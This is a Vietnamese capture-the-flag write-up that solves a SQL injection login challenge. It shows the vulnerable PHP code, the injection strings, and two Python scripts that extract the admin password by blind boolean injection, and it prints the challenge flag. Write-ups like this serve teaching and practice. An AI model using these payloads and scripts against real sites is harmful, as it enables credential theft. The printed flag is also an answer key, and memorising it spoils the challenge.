 # Bài 1: Cơ bản về `SQLi`

Problem: `http://ctfq.sweetduet.info:10080/~q6/`

Khi vào đường dẫn cho trong bài thì mình nhận được một form đăng nhập.
![Alt text](images/login.png?raw=true "Basic authen")

OK, Login thì login thôi :D
Có dòng `First, login as "admin"`. Với tính tò mò từ trước giờ thì mình vào trang web nào cũng thử điền dữ liệu không đúng chuẩn, mà cụ thể là điền thêm các ký tự đặc biệt xem form của họ có bị sql injection hay không.

Nên mình quyết định điền:

    * ID: `admin';--`
    * pass: 'cvcncncb'
![Alt text](images/injec1.png?raw=true "Basic authen")
Và submit form thôi, sau khi submit thì nhận được một đống code:

```html
    Congratulations!
    It's too easy?
    Don't worry.
    The flag is admin's password.

    Hint:
    <?php
        function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
        
        $id = isset($_POST['id']) ? $_POST['id'] : '';
        $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
        $login = false;
        $err = '';
        
        if ($id!=='')
        {
            $db = new PDO('sqlite:database.db');
            $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
            $login = $r && $r->fetch();
            if (!$login)
                $err = 'Login Failed';
        }
    ?><!DOCTYPE html>
    <html>
    <head>
        <meta charset="utf-8">
        <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
    </head>
    <body>
        <?php if (!$login) { ?>
        <p>
        First, login as "admin".
        </p>
        <div style="font-weight:bold; color:red">
        <?php echo h($err); ?>
        </div>
        <form method="POST">
        <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
        <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
        <div><input type="submit"></div>
        </form>
        <?php } else { ?>
        <p>
        Congratulations!<br>
        It's too easy?<br>
        Don't worry.<br>
        The flag is admin's password.<br>
        <br>
        Hint:<br>
        </p>
        <pre><?php echo h(file_get_contents('index.php')); ?></pre>
        <?php } ?>
    </body>
    </html>
```

Ủa, vậy là nó dính lỗi sql injection thật (cuoi2). Nhưng câu chuyện nó khá là phức tạp khi mà đọc đoạn

```txt
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.
```

Vậy là flag chính là password của admin, nhưng khi đọc Hint thì thấy code php bị injection là do nối chuỗi trực tiếp với dữ liệu truyền từ form. Nhưng lại dữ liệu lấy từ database ra thì lại không in ra, mà chỉ là dùng để check câu truy vấn đúng hay không thôi. Nên mình khẳng định đây thuộc dạng SQL Injection mù (Mình sẽ không lể lấy được database ra bằng câu lệnh select bình thường rồi in ra, mà sẽ phải đoán).

Bắt đầu đoán nào:

* Để đoán được password như thế nào thì trước tiên cũng nên biết nó dài bao nhiêu để đoán cho dễ :) Chứ đoán mò khi nào cho hết, vì cứ khi nào đúng thì sẽ được bắn ra một trang hint nên mình inject đoạn sql như vầy `admin' and 10 =  (select LENGTH(pass) from user where id = 'admin');--`.
![Alt text](images/length_pass.png?raw=true "Basic authen")

Chắc chắn là nó login failed rồi :( vì mình đang thử đoán là động dài pass của admin chỉ dài 10. vậy thì chắc chắn độ dài pass không bằng 10. ok, vậy thì thay bằng một số khác 11, 12, 13 ...

Nhưng chợt thấy mình ngu quá, cứ thay rồi bấm submit thế khi nào cho xong :@@

Thế là lại hì học viết một đoạn script check cho lẹ, máy bao giờ nó vẫn nhanh hơn mình mà. Ý tưởng là như vầy: Gửi yêu cầu login gồm ID là đoạn inject mình viết, và pass vớ vẩn. Theo như bên trên lúc inject đúng thì sẽ trả về một hint có code php, trong trang đó sẽ có `Congratulations! ......`. Mình đoán độ dài password nên với câu lệnh `admin' and length_pass =  (select LENGTH(pass) from user where id = 'admin');--` nếu đúng thì sẽ cho ra trang hint, còn không thì vẫn trang login. Và đây là code:

```py
import requests

def length_pass_check():
    url = 'http://ctfq.sweetduet.info:10080/~q6/'

    for i in range(1000):
        sql_inject = "admin\' AND {} = (SELECT LENGTH(pass) FROM user WHERE id = \'admin\') --".format(i)
        form = {
            'id': sql_inject,
            'pass': 'nguyenmanh'
        }
        res = requests.post(url, data=form)
        if res.text.find("Congratulations!") != -1:
            print('Pass chỉ dài {} thôi đại ca ạ!'.format(i))
            break
```

Sau khi chạy thì nhận được kết qủa là `Pass chỉ dài 21 thôi đại ca ạ!`.

Ok, vậy là xác định được độ dài pass là `21`.

Tiếp tục viết hàm để nhặt từng ký tự của `pass` ra nào.
Ý tưởng thì tương tự như bên trên là inject đúng thì sẽ có dòng chữ `Congratulations!`.
Vậy nếu câu lệnh query đúng thì chúng ta sẽ thu được `Congratulations!`. độ dài mật khẩu là 21, kiểm tra từng ký tự một dự vào `string table` python cũng cấp.
Lặp 21 lần cho lớn cho 21 vị trí, trong mỗi vị trí lặp hết `string table` để tìm ký tự đúng.

```py
def leak_pass_easy():
    url = 'http://ctfq.sweetduet.info:10080/~q6/'
    str_table = string.printable

    for i in range(1, 22):
        for j in str_table:
            sql_inject = "admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {}, 1) = '{}' --".format(i, j)
            # print(sql_inject)
            form = {
                'id': sql_inject,
                'pass': 'nguyenmanh'
            }
            res = requests.post(url, data=form)
            # print(res.text)
            print("Để em viết Flag ra cho đại ca nhé!")
            if res.text.find("Congratulations!") != -1:
                print(j, end="", flush=True)
                break

```

Chạy xong thì được kết quả `FLAG_KpWa4ji3uZk6TrPKFlag đây là FLAG_KpWa4ji3uZk6TrPK đại ca nhé!`

=> Vậy flag là `FLAG_KpWa4ji3uZk6TrPK`.